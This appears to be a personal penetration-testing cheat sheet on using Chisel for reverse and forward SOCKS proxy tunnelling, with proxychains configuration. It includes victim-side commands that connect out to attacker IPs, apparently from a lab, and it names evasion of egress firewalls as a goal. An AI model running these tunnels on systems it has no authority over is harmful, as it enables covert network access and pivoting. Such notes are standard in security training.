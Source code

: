 Chisel
---
# Reverse SOCKS Proxy (Attacker -> Server, Victim -> Client)
---
- Client connects with server
- **Client makes decisions and initiates connection**
- ==Good for **evading egress firewalls** and when **victim can reach the attacker**.==
- On Attacker machine:
	- `chisel server --socks5 --reverse -p <port_number>`
- On Victim machine:
	- `./chisel client --fingerprint <fingerprint_from_server_node> <ip_address>:<server_port> R:socks`
	- `.\chisel_windows.exe client --fingerprint gBlVNGJ8Ki/TR5iAy1+4OAvf8cN8MV+qQV7IVhzT+jA= 10.10.16.34:8080 R:socks`
	- .\chisel.exe client --fingerprint P69UU4bfSlPZdQMJv7KVY120gBrinaSLzim+jSIR0v4= 10.10.16.2:9999 R:socks
 - Foxyproxy setup: (**1080 is default proxy port for reverse connections**)
 - Editing & Confirming proxychains.conf:
	 - `socks5 127.0.0.1 1080`
	 - Port 1080 is default for chisel
	
# Forward SOCKS Proxy (Victim -> Server, Attacker -> Client)
---
- Good when **==victim cannot reach attacker but attacker can==**.
- On Attacker machine:
	- `chisel client <compromised_ip>:<port_on_compromised_ip> <local_port_for_proxy>:socks`
- On Victim machine:
	- `chisel server -p <port_to_open> --socks5`
-  Editing & Confirming proxychains.conf:
	 - `socks5 127.0.0.1 1080`
	 - Port 1080 is default for chisel

- For browser interaction: **proxy by patterns**
- For commands use : **proxychains command**
